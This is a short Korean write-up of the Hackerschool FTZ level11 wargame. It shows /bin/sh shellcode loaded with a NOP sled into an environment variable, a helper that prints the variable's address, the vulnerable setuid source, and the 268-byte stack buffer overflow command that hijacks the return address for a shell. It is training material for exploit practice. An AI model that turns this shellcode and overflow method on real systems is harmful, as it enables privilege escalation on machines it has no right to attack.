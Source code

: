 Hackerschool FTZ level11
===
1. EGG라는 환경변수를 만들고 nop썰매와 /bin/sh를 16진수로 바꾼
 > \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80 
 
 를 저장한다
 >export EGG=` python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" '
>>\x90은 nop명령어
 2. 그 EGG의 주소 구함
 ~~~c
#include<stdio.h>
#include<stdlib.h>

int main(int argc, char* argv[]){
        printf("%p\n",getenv(argv[1]));
        return 0;
}
 ~~~

3. attackme에 버퍼오버플로우를 내고 nop썰매 안에 있을 
EGG의 주소를 넣음  
~~~c
int main( int argc, char *argv[] )
{
        char str[256];

        setreuid( 3092, 3092 );
        strcpy( str, argv[1] );
        printf( str );
}
~~~
gdb 를하면 str 할당할때 256바이트를 할당해야하는데 esp(=sfp)를 264바이트를 내려 
8바이트의 dommy가 생기고 그다음 sfp는 4바이트 다음 RET가있으므로 

268바이트의 패딩이 필요
> ./attackme 
'
 python -c 'print "A"*268+\x3f\xfc\xff\xbf"'`   
>>이번경우 "\x3f\xfc\xff\xbf" 가 주소였음 

아무튼 실행하면 다음 level권한이있는 sh에 
들어가져
my-pass를 치면 된다.